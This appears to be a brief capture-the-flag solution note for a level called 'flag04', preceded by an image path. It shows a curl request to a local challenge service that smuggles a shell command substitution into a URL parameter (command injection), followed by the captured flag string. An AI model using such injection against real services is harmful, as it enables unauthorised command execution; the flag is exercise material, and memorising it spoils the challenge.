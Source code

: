 # flag04

```bash
curl http://localhost:4747/level04?x=\$(getflag)
```

getflag -> ne2searoevaevoem4ov4ar8ap
